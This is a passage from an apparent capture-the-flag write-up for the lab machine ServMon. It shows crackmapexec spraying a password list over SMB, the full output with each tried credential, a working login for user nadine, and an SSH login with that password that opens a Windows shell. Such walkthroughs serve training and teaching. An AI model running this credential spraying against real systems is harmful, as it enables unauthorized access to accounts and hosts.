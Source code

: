 
I can now use `crackmapexec` to see if any of these passwords work for any of
the users for smb:

    
    
    root@kali# crackmapexec smb 10.10.10.184 -u users -p passwords
    SMB         10.10.10.184    445    SERVMON          [*] Windows 10.0 Build 18362 x64 (name:SERVMON) (domain:SERVMON) (signing:False) (SMBv1:False)
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\administrator:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [-] SERVMON\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
    SMB         10.10.10.184    445    SERVMON          [+] SERVMON\nadine:L1k3B1gBut7s@W0rk 
    

I’ve got a match, nadine / L1k3B1gBut7s@W0rk.

### SSH

Since SSH is listening on this Windows box, I can use that to get a shell:

    
    
    root@kali# sshpass -p 'L1k3B1gBut7s@W0rk' ssh nadine@10.10.10.184
    Microsoft Windows [Version 10.0.18363.752]          
    (c) 2019 Microsoft Corporation. All rights reserved.
                                                              